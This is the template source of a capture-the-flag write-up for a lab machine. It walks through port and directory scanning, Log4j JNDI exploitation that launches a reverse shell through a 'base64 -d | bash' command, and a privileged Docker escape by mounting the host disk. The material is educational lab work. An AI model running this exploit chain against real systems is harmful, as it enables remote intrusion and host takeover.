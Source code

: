 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- 10.10.189.144", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-14 02:32 CET
Nmap scan report for 10.10.189.144
Host is up (0.075s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 53.70 seconds")}}

{{text("We discover 2 open ports: ")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Let's visit the web page.")}}

{{image("../../static/writeups/lumberjackturtle/images/000001.jpg")}}

{{text("Not a very interesting page. Since it tells us to 'look deeper', we proceed with directory enumerating.")}}

{{console("gobuster dir -u http://10.10.189.144 -w /usr/share/wordlists/dirb/big.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.189.144
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 435]
/]                    (Status: 400) [Size: 435]
/error                (Status: 500) [Size: 73]
/plain]               (Status: 400) [Size: 435]
/quote]               (Status: 400) [Size: 435]
/~logs                (Status: 200) [Size: 29]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================")}}

{{text("We visit the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/~logs</code> directory.")}}

{{image("../../static/writeups/lumberjackturtle/images/000002.jpg")}}

{{text("Seems like we still need to go deeper.")}}

{{console("gobuster dir -u http://10.10.189.144/~logs/ -w /usr/share/wordlists/dirb/big.txt", "...
/[                    (Status: 400) [Size: 435]
/]                    (Status: 400) [Size: 435]
/log4j                (Status: 200) [Size: 47]
/plain]               (Status: 400) [Size: 435]
/quote]               (Status: 400) [Size: 435]
...")}}

{{text("We continue to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/~logs/log4j</code>.")}}

{{image("../../static/writeups/lumberjackturtle/images/000003.jpg")}}

{{text("This page is probably vulnerable to the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>log4j</code> attack.")}}

{{text("While searching for a payload to test this, I came across this article.")}}

{{link("https://raxis.com/blog/log4j-exploit/", "https://raxis.com/wp-content/uploads/2024/02/favicon.png", "Log4j: How to Exploit and Test this Critical Vulnerability")}}

{{text("I caught a request with Burp and used the payload from the article to check if it would work.")}}

{{image("../../static/writeups/lumberjackturtle/images/000004.jpg")}}

{{text("It worked successfully, now we need to get a reverse shell.")}}

{{text("More searching and I came across this GitHub page.")}}

{{link("https://github.com/pimps/JNDI-Exploit-Kit", "", "JNDI-Exploit-Kit")}}

{{text("We download the compiled version onto our machine.")}}

{{text("We visit <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and generate a base64 encoded <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>nc mkfifo</code> reverse shell.")}}

{{text("We run the exploit.")}}

{{console("java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 'VICTIM_IP:138' -C 'echo YOUR_SHELL | base64 -d | bash'")}}

{{text("Now we set up a listener on the port we specified in the reverse shell and send a request with Burp.")}}

{{image("../../static/writeups/lumberjackturtle/images/000005.jpg")}}

{{text("Be make sure the 'oirpyq' string is set to whatever string it is in the JDK 1.7 build in the exploit.")}}

{{text("We should get a connection.")}}

{{image("../../static/writeups/lumberjackturtle/images/000006.jpg")}}

{{header}}

{{text("After running <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>linpeas</code> we learn that we are in a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>docker</code> container.")}}

{{text("We also learn that privilage mode in enabled, giving us all capabilities to the container.")}}

{{text("Let's check for any drives present.")}}

{{console("fdisk -l", "Disk /dev/xvdf: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


Disk /dev/xvdh: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
                                                                                                                                                                        
                                                                                                                                                                        
Disk /dev/xvda: 40 GiB, 42949672960 bytes, 83886080 sectors                                                                                                             
Units: sectors of 1 * 512 = 512 bytes                                                                                                                                   
Sector size (logical/physical): 512 bytes / 512 bytes                                                                                                                   
I/O size (minimum/optimal): 512 bytes / 512 bytes                                                                                                                       
Disklabel type: dos                                                                                                                                                     
Disk identifier: 0x3650a2cc

Device     Boot Start      End  Sectors Size Id Type
/dev/xvda1 *     2048 83886046 83883999  40G 83 Linux")}}

{{text("There is a disk at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/dev/xvda1</code>.")}}

{{text("I created a folder in the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/tmp</code> directory and mounted the disk there.")}}

{{console("mount /dev/xvda1 /tmp/disk")}}

{{text("We look through the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/tmp/disk/root</code> directory and find a fake flag file. Not fun.")}}

{{text("Fortunately, the real flag wasn't far as there was a folder named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>...</code> which contained the thing we were looking for.")}}

{{image("../../static/writeups/lumberjackturtle/images/000007.jpg")}}

{{script()}}




